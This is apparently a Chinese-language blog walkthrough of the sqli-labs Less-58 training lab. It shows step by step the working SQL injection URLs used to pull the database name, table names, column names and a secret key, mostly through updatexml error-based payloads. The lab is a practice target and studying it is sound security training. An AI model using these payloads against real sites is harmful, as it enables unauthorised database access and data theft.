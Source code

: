 
# Sqli-labs-Less-58
![](https://img-blog.csdnimg.cn/20200728095929768.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=RIF8S&originHeight=474&originWidth=1143&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

本关对输入次数的限制为5次

**查找注入点（一次试对）**<br />http://www.web.com/sql/Less-58/?id=1'--+<br />![](https://img-blog.csdnimg.cn/2020072810020115.png#crop=0&crop=0&crop=1&crop=1&id=rVlSs&originHeight=194&originWidth=323&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前库和所有数据库**<br />http://www.web.com/sql/Less-58/?id=-1' union select 1,database(),group_concat(schema_name) from information_schema.schemata--+<br />![](https://img-blog.csdnimg.cn/20200728100520200.png#crop=0&crop=0&crop=1&crop=1&id=hi8Pe&originHeight=181&originWidth=267&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
并没有任何反应，尝试使用报错注入

**查看当前数据库**<br />http://www.web.com/sql/Less-58/?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200728100704302.png#crop=0&crop=0&crop=1&crop=1&id=CsfxF&originHeight=153&originWidth=305&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
再次我已经使用了五次，干脆再错一次重置一下数据

**查看当前数据库**<br />http://www.web.com/sql/Less-58/?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/2020072810081389.png#crop=0&crop=0&crop=1&crop=1&id=XDtOa&originHeight=162&originWidth=295&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
数据库并没有发生改变

**查看所有表**<br />http://www.web.com/sql/Less-58/?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200728102937690.png#crop=0&crop=0&crop=1&crop=1&id=hx85O&originHeight=63&originWidth=314&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看字段**<br />http://www.web.com/sql/Less-58/?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='1crgm7zd79'),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200728103012151.png#crop=0&crop=0&crop=1&crop=1&id=hGW4h&originHeight=76&originWidth=415&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看密码**<br />http://www.web.com/sql/Less-58/?id=1' and updatexml(1,concat(0x7e,(select group_concat(secret_BLS3) from challenges.1crgm7zd79),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200728103255765.png#crop=0&crop=0&crop=1&crop=1&id=sWZNJ&originHeight=72&originWidth=495&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**将得到的密码输入到下面的方框中进行验证**<br />![](https://img-blog.csdnimg.cn/20200728103330711.png#crop=0&crop=0&crop=1&crop=1&id=uqBVI&originHeight=47&originWidth=390&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**成功**<br />![](https://img-blog.csdnimg.cn/20200728103341381.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=GQcDG&originHeight=233&originWidth=749&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
